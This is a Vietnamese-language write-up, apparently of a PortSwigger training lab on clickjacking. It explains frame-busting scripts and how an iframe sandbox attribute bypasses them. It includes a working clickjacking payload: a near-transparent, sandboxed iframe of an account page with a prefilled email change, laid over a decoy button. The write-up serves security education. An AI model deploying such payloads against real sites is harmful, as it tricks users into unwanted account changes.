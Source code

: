 # Frame busting scripts

**Frame busting scripts** là một kỹ thuật được sử dụng để ngăn chặn các cuộc tấn công clickjacking bằng cách hạn chế khả năng nhúng (framing) các trang web vào iframe. Dưới đây là giải thích chi tiết:

**Cách hoạt động của Frame Busting Scripts**:

1. **Bảo vệ phía trình duyệt**:

- Frame busting scripts thường được triển khai trên phía trình duyệt thông qua JavaScript hoặc các tiện ích mở rộng (extensions) như **NoScript**.

- Chúng được thiết kế để ngăn chặn các cuộc tấn công clickjacking bằng cách thực hiện một hoặc nhiều hành động sau:

    - Kiểm tra và đảm bảo cửa sổ ứng dụng hiện tại là cửa sổ **top-level** (không nằm trong iframe).

    - Hiển thị tất cả các iframe để người dùng có thể nhìn thấy nội dung của chúng.

    - Ngăn người dùng click vào các iframe ẩn hoặc trong suốt.

    - Phát hiện và cảnh báo người dùng về các cuộc tấn công clickjacking tiềm ẩn.

**Hạn chế của Frame Busting Scripts**:

1. **Phụ thuộc vào trình duyệt và nền tảng**

- Các kỹ thuật frame busting thường **cụ thể cho từng trình duyệt và nền tảng**, nên không đảm bảo hoạt động nhất quán trên mọi môi trường.

2. **Dễ bị bypass**

- HTML rất linh hoạt, cho phép kẻ tấn công tìm cách **vượt qua các frame busters** bằng nhiều phương pháp khác nhau.

3. **Hạn chế JavaScript**

- Vì frame busting scripts sử dụng JavaScript, chúng có thể không hoạt động nếu:

    - **Cài đặt bảo mật trình duyệt** chặn JavaScript.

    - Trình duyệt không hỗ trợ JavaScript.

**Kỹ thuật bypass Frame Busting**

Một trong những cách kẻ tấn công sử dụng để bypass frame busting là khai thác thuộc tính **sandbox** của iframe trong HTML5.

1. **Cách thức hoạt động**

- Kẻ tấn công sử dụng thuộc tính **sandbox** trong iframe để **vô hiệu hóa khả năng kiểm tra top-level window** của frame busting scripts.

- Ví dụ: 

        <iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>

2. **Giải thích**

- Thuộc tính **sandbox** với các giá trị như **allow-forms** hoặc **allow-scripts** cho phép các hành động nhất định diễn ra trong iframe (ví dụ: gửi form, chạy script).

- Tuy nhiên, khi **không có giá trị allow-top-navigation**, iframe **không thể kiểm tra** liệu nó có phải là cửa sổ top-level hay không.

- Điều này **vô hiệu hóa** các hành vi của frame busting scripts nhưng vẫn cho phép hoạt động trong iframe.

**Tóm lại:**

Frame busting scripts là một biện pháp bảo vệ chống clickjacking nhưng có những hạn chế rõ ràng. Kẻ tấn công có thể vượt qua chúng bằng các kỹ thuật như sử dụng thuộc tính **sandbox** trong HTML5 để ngăn iframe kiểm tra top-level navigation, từ đó thực hiện các cuộc tấn công clickjacking hiệu quả.

# Lab: Clickjacking with a frame buster script
![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image14.png?raw=true)

### Web page
![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image15.png?raw=true)

### Solution

Login vào account được cấp wiener:peter:

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image16.png?raw=true)

Tiếp tục sử dụng lại payload: 

        <style>
                iframe {
                    position:relative;
                    width:700px;
                    height:500px;
                    opacity: 0.1;
                    z-index: 2;
                }
                div {
                    position:absolute;
                    top:445px;
                    left: 80px;
                    z-index: 1;
                }
        </style>
        <div>Click me</div>
        <iframe src="https://0a3e00b3040bb1f9814b61ec001800c3.web-security-academy.net/my-account?email=wiener1@test1.com" sandbox="allow-forms"></iframe>

Trong payload lần này thêm thuộc tính sandbox="allow-forms" để bypass frame buster script.

GO to exploit server và copy payload vào phần body: 

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image17.png?raw=true)

Store và Deliver exploit to victim.

Solved the lab!

![img](https://github.com/DucThinh47/PortSwigger/blob/main/Clickjacking(UI_redressing)/images/image18.png?raw=true)













